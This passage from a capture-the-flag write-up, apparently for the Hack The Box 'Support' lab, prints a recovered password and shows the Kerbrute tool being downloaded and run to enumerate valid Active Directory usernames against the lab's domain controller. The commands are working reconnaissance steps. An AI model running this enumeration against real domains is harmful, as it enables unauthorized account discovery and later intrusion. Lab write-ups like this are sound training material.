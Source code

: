 ```c
    getPassword();
  }
 }
 ```

Run that using the online compiler and you'll get the answer:

```text
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Kerbrute

I don't know what this is for at the moment. Back to more enumeration, this time using [Kerbrute](https://github.com/ropnop/kerbrute) to look for usernames. We've used this a few times, most recently on [Scrambled](https://pencer.io/ctf/ctf-htb-scrambled-protected) and an old TryHackMe room called [Attacktive](https://pencer.io/ctf/ctf-thm-attacktive/#task-4---kerbrute).

Grab it if needed then try a dictionary or two for your username list:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
--2022-08-07 23:01:22--  https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
<SNIP>HTTP request sent, awaiting response... 200 OK
Length: 8286607 (7.9M) [application/octet-stream]
Saving to: ‘kerbrute_linux_amd64’
kerbrute_linux_amd64    100%[=============================================>]   7.90M  6.91MB/s    in 1.1s
2022-08-07 23:01:24 (6.91 MB/s) - ‘kerbrute_linux_amd64’ saved [8286607/8286607]

┌──(root㉿kali)-[~/htb/support]
└─# chmod +x kerbrute_linux_amd64 

┌──(root㉿kali)-[~/htb/support]
└─# ./kerbrute_linux_amd64 userenum -d support.htb --dc support.htb /usr/share/wordlists/dirb/small.txt -t 100 -o kerbrute.txt
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 08/07/22 - Ronnie Flathers @ropnop

2022/08/07 23:07:57 >  Using KDC(s):
2022/08/07 23:07:57 >   support.htb:88

2022/08/07 23:07:57 >  [+] VALID USERNAME:       administrator@support.htb
2022/08/07 23:07:57 >  [+] VALID USERNAME:       guest@support.htb
2022/08/07 23:07:57 >  [+] VALID USERNAME:       ldap@support.htb
2022/08/07 23:07:57 >  [+] VALID USERNAME:       management@support.htb
2022/08/07 23:07:57 >  [+] VALID USERNAME:       support@support.htb
2022/08/07 23:07:57 >  Done! Tested 959 usernames (5 valid) in 0.453 seconds
```
